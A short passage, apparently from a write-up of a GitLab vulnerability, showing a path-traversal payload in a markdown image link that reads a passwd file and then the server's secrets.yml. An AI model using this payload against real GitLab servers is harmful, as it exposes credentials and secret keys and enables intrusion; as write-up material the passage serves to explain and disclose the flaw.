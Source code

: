 <img src="passwd1.png">
And we get the file!
<img src="passwd2.png">


Now let's repeat the same thing to get /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml

```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml)
```